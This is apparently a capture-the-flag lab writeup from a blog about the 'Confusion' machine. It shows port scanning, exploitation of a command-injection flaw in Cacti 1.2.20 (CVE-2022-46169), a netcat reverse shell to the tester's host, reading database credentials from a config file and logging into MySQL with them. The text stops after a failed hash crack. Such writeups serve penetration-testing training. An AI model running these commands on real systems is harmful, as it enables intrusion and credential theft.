

repository: gmrvh/blog · page: pg/confusion/index.html · generator: mkdocs

# Confusion - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed open ports and potential virtual hosts:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4
80/tcp open  http    Apache httpd 2.4.54
443/tcp open  https   Apache httpd 2.4.54
```

### Web Enumeration
Through Nmap and virtual host discovery, I identified two domains:
- confusion.pg → Displayed an "Under Construction" page
- cacti-monitoring.confusion.pg → Required HTTPS to access the login page

Adding these domains to my `/etc/hosts` file:
```bash
echo "192.168.172.99 confusion.pg cacti-monitoring.confusion.pg" >> /etc/hosts
```

Accessing the Cacti monitoring site revealed:
- Cacti Version 1.2.20
- Research indicated this version is vulnerable to CVE-2022-46169, an unauthenticated command injection vulnerability

## Gaining Initial Access

### Exploiting CVE-2022-46169
I attempted to exploit the vulnerability using different POCs:

1. First attempt failed with "FATAL: Unauth error"
2. Second attempt with a modified exploit confirmed the vulnerability:
```bash
curl -I https://cacti-monitoring.confusion.pg/ -H "X-Forwarded-For: 127.0.0.1" | grep Server
```

This successfully returned my server headers, confirming command execution was possible.

I then obtained a reverse shell as `www-data`:
```bash
python3 '/home/kali/Downloads/CVE-2022-46169.py' https://cacti-monitoring.confusion.pg/ -c 'busybox nc 192.168.45.225 3000 -e /bin/bash'
```

In a separate terminal, I had set up a listener:
```bash
nc -lvnp 3000
```

## Lateral Movement

### Database Credential Discovery
Once I had shell access as `www-data`, I explored the Cacti installation and found database credentials in the configuration file:
```bash
cat /var/www/html/cacti/include/config.php
```

This revealed the following database password:
```
uTyWUHAdetb3O23aUEOo1KRg
```

I attempted to enumerate the database:
```bash
mysql -u cacti -p'uTyWUHAdetb3O23aUEOo1KRg' -D cacti
```

While I found a bcrypt hash for the admin user, I was unable to crack it.
